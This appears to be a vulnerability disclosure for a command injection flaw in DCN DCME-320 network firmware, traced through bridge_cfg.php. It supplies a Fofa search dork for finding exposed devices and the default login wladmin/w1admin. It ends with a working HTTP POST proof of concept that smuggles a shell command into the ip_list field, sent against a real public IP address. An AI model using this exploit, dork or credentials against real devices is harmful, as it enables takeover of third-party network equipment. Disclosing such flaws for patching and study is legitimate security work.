







**Project Address**
 [https://www.dcnetworks.com.cn](https://www.dcnetworks.com.cn/)

**Vulnerability Description**
 There is a command execution vulnerability in the web management backend that allows attackers to exploit this series of vulnerabilities to execute arbitrary code and control the device.

**Firmware Download Address**
 https://www.dcnetworks.com.cn/ruanjian.html?title=dcme-320

**Affected Version**
 Latest version

**Environment Setup**
 Fofa dork: body="style/blue/css/dcn_ui.css"



**Vulnerability Location**
 function\system\basic\bridge_cfg.php

**Vulnerability Analysis**
 In the following code, when the action equals apply_config, the apply_config function will be called.
 function\system\basic\bridge_cfg.php



In apply_config, the update_bridge_factory function is called.




In the update_bridge_factory function, the ip_list function is finally concatenated into the command and executed.



**Vulnerability Verification**
 Log in using the default password wladmin/w1admin without changing the password, and directly access the following link:
 http://36.94.25.182/function/default_normal.php#nogo



Execute the id command and write it to 1212.txt:

 http://36.94.25.182/function\system\basic\bridge_cfg.php



**View Execution Results**



Poc:

```
POST /function/system/basic/bridge_cfg.php HTTP/1.1
Host: 36.94.25.182
Content-Length: 53
Cache-Control: max-age=0
Origin: http://36.94.25.182
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://36.94.25.182/function/dpi/wifi.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: tj=1; zyclb=2; cpkj=1; aqrz=1; pzrz=2; UILanguage=2; PHPSESSID=sess_08df0252e10ef0423ae41733f4846f45
Connection: keep-alive

action=apply_config&ip_list=%27%60id%3E1212.txt%60%27
```

